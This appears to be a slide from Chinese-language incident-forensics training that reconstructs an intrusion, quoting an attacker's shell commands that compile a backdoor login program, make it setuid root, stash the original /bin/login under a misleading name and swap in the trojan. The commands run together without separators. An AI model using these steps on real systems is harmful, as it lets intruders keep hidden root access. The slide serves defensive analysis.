

6.6.3 现场重建
现在他尝试第三次编译后门程序。注意攻击者使用了相同的“剪切和粘贴”命令。

[root@apollo /]# gcc -o login bj.cchown root:bin loginchmod 4555 loginchmod u-w logincp
/bin/login   /usr/bin/xstatcp  /bin/login  /usr/bin/old    rm /bin/loginchmod 555
/usr/bin/xstatchgrp bin /usr/bin/xstatmv login /bin/loginrm bj.cgcc –o login bj.c
bj.c: In function ‘owned’:
bj.c:16: warning: assignment makes pointer from integer without a cast